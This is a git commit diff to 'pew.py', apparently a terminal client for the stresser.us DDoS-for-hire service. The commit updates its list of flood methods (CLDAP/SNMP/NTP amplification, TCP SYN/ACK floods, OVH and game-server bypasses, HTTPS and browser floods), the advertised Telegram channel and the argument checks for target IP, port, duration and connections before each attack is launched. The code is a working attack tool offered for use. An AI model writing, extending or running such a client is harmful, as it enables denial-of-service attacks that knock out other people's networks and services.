

update methods 24/4/2022 and change discord to telegram
- update methods 24/4/2022
- remove discord 
- added telegram

diff --git a/pew.py b/pew.py
@@ -6,9 +6,9 @@ from time import sleep
 from sty import fg
 
 _USERNAME="YOUR_NAME"
-_KEY="KEY_HERE" # key from here >> https://stresser.us/
+_KEY="YOUR_KEY" # key from here >> https://stresser.us/
 _DALAY=0.5 # wait delay per req
-_METHODS=["TCPRAW","TCPSYN","TCPACK","TCPTFO","TCPTLS","TCPAMP","VALVE","FIVEM","OVHAMP","OVHTCP","OVHUDP","SNMP","WSD","DVR","NTP","ARD","IGMP","GRE","ESP","IPRAND","TLSV1","TLSV2","BROWSER","UDPBYPASS"]
+_METHODS=["TCPSYN","TCPACK","TCPTFO","TCPTLS","TCPAMP","VALVE","FIVEM","OVHAMP","OVHTCP","CLDAP","SNMP","WSD","DVR","NTP","ARD","IGMP","GRE","ESP","IPRAND","SOCKET","HTTPSV1","HTTPSV2","BROWSER","UDPBYPASS"]
 
 __builtins__.print = lambda text="",end="\r\n": stdout.write(f"{text}{end}");stdout.flush()
 clearconsole = lambda:system("cls || clear")
@@ -34,7 +34,7 @@ def logo():
 \t██▄ ▀   ██    ██▀ ▀▀ ▄█▄▄▄██ ██▄ ▀  ██▄ ▀  ▄█▄▄▄██  ██▀ ▀▀     ██  ██  ██▄ ▀  
 \t▄ ▀█▄▄  ██    ██     ██      ▄ ▀█▄▄ ▄ ▀█▄▄ ██       ██         ██  ██  ▄ ▀█▄▄ 
 \t█▀▄▄█▀  ▀█▄▀ ▄██▄     ▀█▄▄▄▀ █▀▄▄█▀ █▀▄▄█▀  ▀█▄▄▄▀ ▄██▄        ▀█▄▄▀█▄ █▀▄▄█▀ """,_COLOR.logo))
-    printc(makec("\t\t\tdiscord.gg/vT8W3XzNZg and stresser.us\n",_COLOR.invite))
+    printc(makec("\t\t\tt.me/stresseruschat and stresser.us\n",_COLOR.invite))
 
 def realint(s):
     try:return int(s)
@@ -70,11 +70,11 @@ def request(ip,port,time,conn,method):
 def helpcom():
     logo()
     printc(f"""\t\t {makec("╔═════════╦══════════════════════════════════════════════════╗",_COLOR.line)}
-\t\t {makec("║",_COLOR.line)} {makec("TCP",206)}     ║ {makec("> TCPRAW, TCPSYN, TCPACK, TCPTFO, TCPTLS, TCPAMP",_COLOR.text)} {makec("║",_COLOR.line)}
-\t\t {makec("║",_COLOR.line)} {makec("SPECIAL",135)} ║ {makec("> VALVE, FIVEM, OVHAMP, OVHTCP, OVHUDP",_COLOR.text)}           {makec("║",_COLOR.line)}
-\t\t {makec("║",_COLOR.line)} {makec("AMP",211)}     ║ {makec("> SNMP, WSD, DVR, NTP, ARD",_COLOR.text)}                       {makec("║",_COLOR.line)}
+\t\t {makec("║",_COLOR.line)} {makec("AMP",211)}     ║ {makec("> cLDAP, SNMP, WSD, DVR, NTP, ARD",_COLOR.text)}                {makec("║",_COLOR.line)}
+\t\t {makec("║",_COLOR.line)} {makec("TCP",206)}     ║ {makec("> TCPSYN, TCPACK, TCPTFO, TCPTLS, TCPAMP",_COLOR.text)}         {makec("║",_COLOR.line)}
+\t\t {makec("║",_COLOR.line)} {makec("SPECIAL",135)} ║ {makec("> VALVE, FIVEM, OVHAMP, OVHTCP",_COLOR.text)}                   {makec("║",_COLOR.line)}
 \t\t {makec("║",_COLOR.line)} {makec("L3",203)}      ║ {makec("> IGMP, GRE, ESP, IPRAND",_COLOR.text)}                         {makec("║",_COLOR.line)}
-\t\t {makec("║",_COLOR.line)} {makec("L7",201)}      ║ {makec("> TLSv1, TLSv2, BROWSER",_COLOR.text)}                          {makec("║",_COLOR.line)}
+\t\t {makec("║",_COLOR.line)} {makec("L7",201)}      ║ {makec("> SOCKET, HTTPSv1, HTTPSv2, BROWSER",_COLOR.text)}              {makec("║",_COLOR.line)}
 \t\t {makec("║",_COLOR.line)} {makec("UDP",197)}     ║ {makec("> UDPBYPASS",_COLOR.text)}                                      {makec("║",_COLOR.line)}
 \t\t {makec("╚═════════╩══════════════════════════════════════════════════╝",_COLOR.line)}""")
 
@@ -93,10 +93,11 @@ def main():
     helpcom()
     while 1:
         rawcommands=input(f'{makec(f"{_USERNAME}@us",196)}{makec(":~$",_COLOR.text)}{fg(81)} ').split(" ")
+        #print(rawcommands)
         commands=rawcommands[0].upper()
         args=rawcommands[1:]
         if commands in _METHODS:
-            if len(args) < 3 or not ((commands.startswith("TLS") or commands.startswith("BROWSER")) or isgoodipv4(args[0])) or (not isgoodint(args[1],65535)) or (not isgoodint(args[2],1200)) or (not isgoodint(args[3],10)):
+            if len(args) < 3 or not ((commands.startswith("HTTPS") or commands.startswith("BROWSER") or commands.startswith("SOCKET")) or isgoodipv4(args[0])) or (not isgoodint(args[1],65535)) or (not isgoodint(args[2],1200)) or (not isgoodint(args[3],10)):
                 print(makec(f"[*] {commands} <ip/url> <port> <time> <conn>",99))
             else: request(args[0],args[1],args[2],args[3],commands)
         else:   
